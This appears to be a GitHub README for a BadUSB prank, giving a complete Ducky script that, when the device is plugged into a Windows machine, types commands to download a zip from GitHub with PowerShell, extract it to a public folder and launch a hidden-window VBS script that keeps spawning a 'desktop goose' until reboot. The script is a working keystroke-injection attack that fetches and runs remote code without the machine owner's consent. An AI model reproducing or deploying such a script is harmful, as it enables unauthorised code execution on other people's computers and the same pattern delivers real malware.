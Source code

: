# Badusb-desktop-goose
Script for a badusb that will download and run a desktop goose every 60 seconds. To stop the spawining of the geese you have to restart your computer. You can also hold down ESC to evict the geese(the will come back)

Credit for the desktop goose goes to [Sam Chiet](twitter.com/samnchiet)

## Ducky script(tested and working on flipper zero):
```
REM Download goose and unzip
DELAY 500
GUI r
DELAY 500
STRING cmd
DELAY 500
ENTER
DELAY 500
STRING powershell (New-Object System.Net.WebClient).DownloadFile('https://github.com/Ferferite/Badusb-desktop-goose/archive/refs/heads/main.zip', 'C:\Users\Public\Badusb-desktop-goose.zip')
DELAY 500
ENTER
DELAY 1000
STRING powershell Expand-Archive -Path 'C:\Users\Public\Badusb-desktop-goose.zip' -DestinationPath 'C:\Users\Public\Temp'
DELAY 500
ENTER
DELAY 500
STRING cd C:\Users\Public\Temp\Badusb-desktop-goose-main
DELAY 500
ENTER
STRING cscript inviswindow.vbs
DELAY 500
ENTER
STRING exit
DELAY 100
ENTER
```
